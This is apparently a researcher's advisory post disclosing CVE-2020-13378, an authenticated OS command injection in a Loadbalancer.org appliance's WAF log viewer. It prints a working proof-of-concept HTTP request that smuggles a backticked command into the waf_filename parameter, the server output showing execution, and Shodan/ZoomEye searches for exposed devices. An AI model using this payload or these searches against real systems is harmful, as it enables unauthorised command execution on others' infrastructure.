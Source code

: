 ```yaml
---
layout: post
title:  "OS Command Injection in Enterprise loadbalancer VA MAX - v8.3.8 and earlier"
date:   2020-04-21 19:51:02 +0700 
categories: [cve]
---
```


Vulnerability: OS Command Injection

OS Command Injection in Loadbalancer.org Appliance v8.3.8-134.md

Vendor: Loadbalancer.org, https://www.loadbalancer.org

Product: ENTERPRISE VA MAX

Version affected: Loadbalancer.org Appliance v8.3.8 as the latest in October 2019

#### Product description:

"Loadbalancer.org is a well-established international provider of reliable, versatile and cost-effective application delivery products and services. The load balancer experts help solve the issues of availability and scalability by providing an unbreakable solution to ensure zero downtime of critical IT applications.

Loadbalancer.org’s consultancy led approach means they have specialist engineers that will help design and simplify architecture guaranteeing painless deployments every single time. The team of experts are effortlessly able to set up test environments, document each deployment, provide customized solutions and assist with complex migrations. They will support a business, not just the load balancer!

Loadbalancer.org load balancers are sold as hardware, virtual or cloud formats and are more scalable, flexible and are economical compared to competitive offerings.  With no performance or feature restrictions, their suite of products can load balance any application, for any company, in any industry, anywhere in the world. 

Allowing customers to have direct access 24 hours a day 7 days a week to a team of passionate engineers via phone, online chat and e-mail sets Loadbalancer.org apart from other ADC vendors.  

" as per statement on https://www.linkedin.com/company/loadbalancer-org  website. 

* CVE ID: CVE-2020-13378
* CWE ID: CWE-78


##### Proof of Concept

A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted HTTP request. This is exploitable by an authenticated attacker who submits a modified GET request.


Sample GET request, issuing 'id' OS command returns 'uid=48(apache)'

Identified vulnerable parameters: waf_filename  

#### Request:

{% highlight ruby %}
GET /lbadmin/ajax/js_dispatcher.php?option=waf_log&waf_filename=modsec_audit.log%7c%60id%60&log_option=base HTTP/1.1
Host: 10.0.0.99:9443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Authorization: Basic aW5mZ[...]TEw
Connection: close
Cookie: menu=log%2Flaw; hiderestartwarning=0


HTTP/1.1 200 OK
Date: Thu, 03 Oct 2019 11:38:17 GMT
Server: Apache
Content-Length: 800
Connection: close
Content-Type: text/html; charset=UTF-8


<div class="exception"><h2>Exception LBFileError:</h2><p><em>Please report the full text of this exception to <a href="mailto:support@loadbalancer.org">Loadbalancer.org Support</a>, together with brief details of the operation you were performing.</em></p>
<p><em>Thank you.</em></p><p><pre>ensure_access(): &#039;chown  --no-dereference root:apache /var/log/httpd/modsec_audit.log|`id`&#039; failed: errno 127, sh: uid=48(apache): command not found</pre></p><h3>Trace:</h3>
<p><pre>#0 /var/www/html/lbadmin/inc/waf.inc(1878): ensure_access(&#039;/var/log/httpd/...&#039;)
#1 /var/www/html/lbadmin/inc/js_dispatch_func_call.inc(62): load_waf_log_file(&#039;modsec_audit.lo...&#039;, &#039;base&#039;)
#2 /var/www/html/lbadmin/ajax/js_dispatcher.php(70): get_waf_log(Array)
#3 {main}</pre></p></div>
{% endhighlight %}

#### Public searches:

https://www.zoomeye.org/searchResult?q=Loadbalancer%2Corg

https://www.shodan.io/search?query=loadbalancer.org

but this company has interestingly some reputable partnership alliance

![Raw HTTP Request/Response ](/static/img/Loadbalancer.png)

#### References
1. https://www.immuniweb.com/vulnerability/os-command-injection.html
2. https://www.loadbalancer.org
3. https://cwe.mitre.org/data/definitions/78.html
4. https://www.checkmarx.com/knowledge/knowledgebase/OS-Command_Injection
